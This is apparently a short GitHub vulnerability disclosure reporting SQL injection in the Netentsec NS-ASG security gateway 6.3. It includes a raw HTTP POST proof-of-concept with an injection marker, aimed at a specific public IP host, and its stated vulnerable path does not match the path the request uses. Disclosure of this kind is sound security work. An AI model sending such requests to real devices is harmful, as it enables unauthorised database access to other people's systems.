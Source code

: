 Beijing Wangkang Technology Co., Ltd. is a leading provider of network application management equipment in China, focusing on the latest trend research and analysis in the field of network application management. It provides users with advanced network application management technology, products, and solutions, aiming to help users achieve the goal of "using the internet well" in network management.

There is an SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.

official： https://www.netentsec.com/

version:6.3

Vulnerability Path ： /protocol/iscdevicestatus/deleteonlineuser.php

<img width="512" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/af21c935-6569-407c-ac1a-e970f926ee18">

Poc：
```
POST /protocol/index.php HTTP/1.1
Host: 1.85.53.53
Cookie: PHPSESSID=bfd2e9f9df564de5860117a93ecd82de
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 63

jsoncontent={"protocolType":"getethname","messagecontent":"1*"}
```
<img width="513" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/05213e2e-aa6f-4dc0-8461-42020c18b38c">
